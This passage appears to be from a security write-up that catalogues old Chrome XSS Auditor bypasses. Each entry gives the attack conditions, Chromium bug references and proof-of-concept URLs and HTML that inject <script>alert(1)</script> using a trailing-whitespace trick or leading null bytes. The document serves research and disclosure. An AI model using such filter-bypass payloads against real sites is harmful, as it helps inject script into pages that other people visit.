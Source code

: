 Conditions for attacking:

1. There is XSS that can write arbitrary tags
2. followed by whitespace

Reference URL:

- [https://bugs.chromium.org/p/chromium/issues/detail?id=742459](https://bugs.chromium.org/p/chromium/issues/detail?id%3D742459)

PoCs:

[https://vulnerabledoma.in/bypass/text?type=4&q=%3Cscript%3Ealert(1)%3C/script](https://vulnerabledoma.in/bypass/text?type%3D4%26q%3D%253Cscript%253Ealert(1)%253C/script)

```html
<div> <script>alert(1)</script </div><div id="x"></div>
```

## Using multiple null characters (Chrome)

supplement:

Fixed in Chrome 62.

Conditions for attacking:

1. There is XSS that can write arbitrary tags
2. a null byte is printed
3. no preceding whitespace

Reference URL:

- [https://twitter.com/0rbz_/status/896896095862669312](https://twitter.com/0rbz_/status/896896095862669312)

PoCs:

[https://vulnerabledoma.in/bypass/text?q=%00%00%00%00%00%00%00%3Cscript%3Ealert(1)%3C/script%3E](https://vulnerabledoma.in/bypass/text?q%3D%2500%2500%2500%2500%2500%2500%2500%253Cscript%253Ealert(1)%253C/script%253E)

```html
[0x00][0x00][0x00][0x00][0x00][0x00][0x00]<script>alert(1)</script>
```

## `-->` Using comments in script tags (Chrome)

supplement:

Fixed in Chrome 62.

Conditions for attacking:

1. There is XSS that can write arbitrary tags
2. There is a closing tag of the script tag without a line break after it

Reference URL:

- [https://bugs.chromium.org/p/chromium/issues/detail?id=753307](https://bugs.chromium.org/p/chromium/issues/detail?id%3D753307)
